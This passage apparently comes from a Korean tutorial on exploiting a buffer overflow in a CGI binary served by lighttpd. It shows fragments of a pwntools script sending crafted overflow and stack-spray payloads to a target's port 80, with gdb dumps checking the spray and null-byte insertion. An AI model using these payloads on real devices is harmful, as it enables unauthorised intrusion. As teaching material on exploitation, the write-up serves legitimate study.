 ```python
    p = remote(ip, 80)
    p.send(packet)
    r = p.recv(1024).decode()
    log.info(r)
    p.close()

if __name__ == "__main__":
    if (len(sys.argv) == 2):
        exploit(sys.argv[1])
    else:
        print("{} [target-ip]".format(sys.argv[0]))
```

실제로 스택에 스프레이가 되었는지 확인합니다.

```
(gdb) x/16wx $sp+0x380
0xbec65db8:     0x61616161      0x61616161      0x61616161      0x61616161
0xbec65dc8:     0x64646161      0x44446464      0x73004444      0x6262623d
0xbec65dd8:     0x62626262      0x62626262      0x62626262      0x62626262
0xbec65de8:     0x62626262      0x62626262      0x62626262      0x62626262
(gdb) x/16wx $sp+0x380+0x10000
0xbec75db8:     0x62626262      0x62626262      0x62626262      0x62626262
0xbec75dc8:     0x62626262      0x62626262      0x62626262      0x45520062
0xbec75dd8:     0x53455551      0x52555f54      0x762f3d49      0x2e6e6c75
0xbec75de8:     0x3f696763      0x6f636669      0x6769666e      0x6326793d
(gdb)
```

스프레이가 잘 되었음을 확인 했습니다.

또한 Null-byte의 삽입이 가능한지의 여부를 확인합니다.

```python
# ...
def exploit(ip):
    payload = 'a'*63 + 'dddd' + 'DDDD'
    spray   = '%00'*4 + 'b'*(0x10000-12)
    param   = form_param(payload, spray)
    packet  = form_packet(ip, param)
# ...
```

4바이트의 null을 삽입 해 봅니다.

```
(gdb) x/16wx $sp+0x380
0xbed44db8:     0x61616161      0x61616161      0x61616161      0x61616161
0xbed44dc8:     0x64646161      0x44446464      0x73004444      0x0000003d
0xbed44dd8:     0x62626200      0x62626262      0x62626262      0x62626262
0xbed44de8:     0x62626262      0x62626262      0x62626262      0x62626262
(gdb) x/16wx $sp+0x380+0x10000
0xbed54db8:     0x62626262      0x62626262      0x62626262      0x62626262
0xbed54dc8:     0x62626262      0x62620062      0x62626262      0x45520062
0xbed54dd8:     0x53455551      0x52555f54      0x762f3d49      0x2e6e6c75
0xbed54de8:     0x3f696763      0x6f636669      0x6769666e      0x6326793d
(gdb)
```


[^`1]: [Wikipedia: 공용 게이트웨이 인터페이스](https://ko.wikipedia.org/wiki/공용_게이트웨이_인터페이스)
[^2]: https://www.lighttpd.net/
[^3]: [CGI Envrionment Variables](http://www.cgi101.com/book/ch3/text.html)
[^4]: [strcat](https://man7.org/linux/man-pages/man3/strcat.3.html)
[^5]: [Buffer overflow](https://ko.wikipedia.org/wiki/%EB%B2%84%ED%8D%BC_%EC%98%A4%EB%B2%84%ED%94%8C%EB%A1%9C)
[^6]: [Return oriented programming]([https://ko.wikipedia.org/wiki/%EB%B0%98%ED%99%98_%EC%A7%80%ED%96%A5%ED%98%95_%ED%94%84%EB%A1%9C%EA%B7%B8%EB%9E%98%EB%B0%8D](https://ko.wikipedia.org/wiki/반환_지향형_프로그래밍))